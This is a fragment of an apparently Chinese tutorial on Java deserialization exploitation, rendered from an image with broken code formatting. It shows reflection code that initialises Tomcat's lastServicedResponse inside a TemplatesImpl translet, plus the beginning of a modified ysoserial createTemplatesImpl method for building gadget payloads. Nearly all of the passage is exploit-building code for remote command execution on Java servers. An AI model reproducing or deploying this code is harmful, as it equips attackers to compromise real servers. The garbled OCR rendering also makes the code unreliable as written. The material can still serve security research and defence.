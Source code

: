   //初始化 lastServicedResponse
  f = c.getDeclaredField("lastServicedResponse");
  modifiersField = f.getClass().getDeclaredField("modifiers");
  modifiersField.setAccessible(true);
  modifiersField.setInt(f, f.getModifiers() &amp; ~java.lang.reflect.Modifier.FINAL);
  f.setAccessible(true);
  if (f.get(null) == null) {
    f.set(null, new ThreadLocal());
  }
} catch (Exception e) {
  e.printStackTrace();
} 
```

}

@Override

public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

}

@Override

public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)

throws TransletException { `}

}` 
```

接着，我们改造一下ysoserial中的Gadgets.createTemplatesImpl方法

```
public static Object createTemplatesImpl ( final String command) throws Exception {
    return createTemplatesImpl(command, null);
}

public static Object createTemplatesImpl ( final String command, final Class c ) throws Exception {

if ( Boolean.parseBoolean(System.getProperty(“properXalan”, “false”)) ) {

return createTemplatesImpl(

command, c,

Class.forName(“org.apache.xalan.xsltc.trax.TemplatesImpl”),

Class.forName(“org.apache.xalan.xsltc.runtime.AbstractTranslet”),

Class.forName(“org.apache.xalan.xsltc.trax.TransformerFactoryImpl”));

}

```
return createTemplatesImpl(command, c, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class); 
```

}

public static <T> T createTemplatesImpl ( final String command, Class c, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )

throws Exception {
```